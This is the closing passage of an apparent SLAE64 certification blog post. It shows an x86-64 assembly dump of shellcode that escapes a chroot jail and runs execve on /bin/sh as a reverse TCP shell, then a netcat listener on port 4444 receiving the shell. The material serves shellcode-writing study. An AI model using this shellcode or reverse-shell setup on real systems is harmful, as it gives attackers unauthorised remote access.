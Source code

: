 ```nasm
   0x00005555555580ed <+141>:	mov    rdi,rsp			; RDI point to /bin/sh\x00
   0x00005555555580f0 <+144>:	push   rdx			; array terminator
   0x00005555555580f1 <+145>:	push   rdi			; push address of /bin/sh\x00
   0x00005555555580f2 <+146>:	mov    rsi,rsp			; RSI point to ["/bin/sh"]
   0x00005555555580f5 <+149>:	syscall 			; exec execve

   0x00005555555580f7 <+151>:	add    BYTE PTR [rax],al   ;Trash
End of assembler dump.
```
For information about the jail break techniques used in this payload you can check this link :  
[Escaping a chroot jail](https://filippo.io/escaping-a-chroot-jail-slash-1/)
Then it is a classical reverse shell tcp.

Finally we can test it to see the directory creation with permission, and the current directory :
```plaintext
skrox@kali:~$ ./reverse-tcp 
skrox@kali:~$ ls -l
total 128
	....
drwxr-xr-x 2 skrox skrox  4096 juin   5 15:55 qwMDBorW
	....
```
On the terminal with a netcat listener :
```plaintext
skrox@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45880
pwd
/
exit
```

And this the end of this assignement, thanks for reading :)

***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-
linux/index.html)  
Student ID: PA-14186***
